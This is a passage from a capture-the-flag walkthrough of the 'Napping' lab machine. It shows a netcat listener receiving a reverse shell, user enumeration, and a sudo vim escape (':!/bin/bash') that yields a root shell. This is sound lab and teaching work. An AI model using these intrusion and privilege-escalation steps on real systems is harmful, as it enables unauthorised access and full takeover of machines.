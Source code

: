 I waited for a minute or so and I got the reveres shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/napping1.0.1]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.0.2.60] from (UNKNOWN) [10.0.2.75] 38600
/bin/sh: 0: can not access tty; job control turned off
$ whoami
adrian
$ ls -al
total 36
drwxr-xr-x 3 adrian adrian         4096 Oct 25 05:44 .
drwxr-xr-x 4 root   root           4096 Oct 12  2021 ..
lrwxrwxrwx 1 adrian adrian            9 Oct 12  2021 .bash_history -> /dev/null
-rw-r--r-- 1 adrian adrian            0 Feb 25  2020 .bash_logout
-rw-r--r-- 1 adrian adrian            0 Feb 25  2020 .bashrc
drwx------ 2 adrian adrian         4096 Oct 11  2021 .cache
lrwxrwxrwx 1 adrian adrian            9 Oct 12  2021 .mysql_history -> /dev/null
-rw-r--r-- 1 adrian adrian            0 Feb 25  2020 .profile
-rw-rw-r-- 1 adrian adrian           75 Oct 11  2021 .selected_editor
-rw-r--r-- 1 adrian adrian            0 Oct 11  2021 .sudo_as_admin_successful
-rw------- 1 adrian adrian            0 Oct 30  2021 .viminfo
-rw-rw-r-- 1 adrian administrators  581 Oct 25 14:18 query.py
-rw-rw-r-- 1 adrian adrian         8256 Oct 25 14:18 site_status.txt
-rw------- 1 adrian adrian           22 Oct 12  2021 user.txt
$ id
uid=1000(adrian) gid=1000(adrian) groups=1000(adrian),1002(administrators)
$ sudo -l
Matching Defaults entries for adrian on napping:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User adrian may run the following commands on napping:
    (root) NOPASSWD: /usr/bin/vim
$
```
{: .nolineno}
{: .nolineno}

Now lets use the GTFOBin site to get the root shell and exploit the vim →

```bash
adrian@napping:~$ sudo -u root vim -c ':!/bin/bash'

root@napping:/home/adrian#
root@napping:/home/adrian# whoami
root
root@napping:/home/adrian# id
uid=0(root) gid=0(root) groups=0(root)
root@napping:/home/adrian# cd /
root@napping:/# cd /root
root@napping:~# ls -al
total 48
drwx------  5 root root 4096 Oct 30  2021 .
drwxr-xr-x 20 root root 4096 Oct 11  2021 ..
lrwxrwxrwx  1 root root    9 Oct 12  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 Oct 12  2021 .cache
lrwxrwxrwx  1 root root    9 Oct 12  2021 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   75 Oct 19  2021 .selected_editor
drwx------  2 root root 4096 Oct 11  2021 .ssh
-rw-------  1 root root    0 Oct 30  2021 .viminfo
-rw-r-----  1 root root  224 Oct 19  2021 del_links.py
```